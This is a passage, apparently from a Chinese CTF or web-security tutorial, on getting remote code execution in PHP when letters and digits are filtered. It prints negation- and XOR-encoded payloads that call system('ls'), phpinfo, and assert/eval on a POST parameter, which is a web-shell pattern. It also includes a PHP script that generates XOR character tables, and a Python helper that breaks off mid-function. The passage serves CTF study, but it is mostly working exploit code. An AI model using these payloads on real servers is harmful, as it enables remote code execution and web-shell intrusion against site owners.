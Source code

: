 ```php
[+]your function: system
[+]your command: ls
[*] (~%8C%86%8C%8B%9A%92)(~%93%8C);
```
**异或运算的利用**
Ascii码大于 0x7F 的字符都会被当作字符串，而和 0xFF 异或相当于取反，可以绕过被过滤的取反符号，即：
![](https://img-blog.csdnimg.cn/20200411130214538.png)

```php
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
${%fe%fe%fe%fe^%a1%b9%bb%aa}[_](${%fe%fe%fe%fe^%a1%b9%bb%aa}[__]);&_=assert&__=eval($_POST['a'])
```
网上的构造脚本：
```php
<?php

/*author yu22x*/

$myfile = fopen("xor_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
    for ($j=0; $j <256 ; $j++) { 
        if($i<16){
            $hex_i='0'.dechex($i);
        }
        else{
            $hex_i=dechex($i);
        }
        if($j<16){
            $hex_j='0'.dechex($j);
        }
        else{
            $hex_j=dechex($j);
        }
        $preg = '/[a-z0-9]/i'; //根据题目给的正则表达式修改即可
        if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
                    echo "";
    }
        else{
        $a='%'.$hex_i;
        $b='%'.$hex_j;
        $c=(urldecode($a)^urldecode($b));
        if (ord($c)>=32&ord($c)<=126) {
            $contents=$contents.$c." ".$a." ".$b."\n";
        }
    }
}
}
fwrite($myfile,$contents);
fclose($myfile);
```
```python
# -*- coding: utf-8 -*-

# author yu22x

import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
```
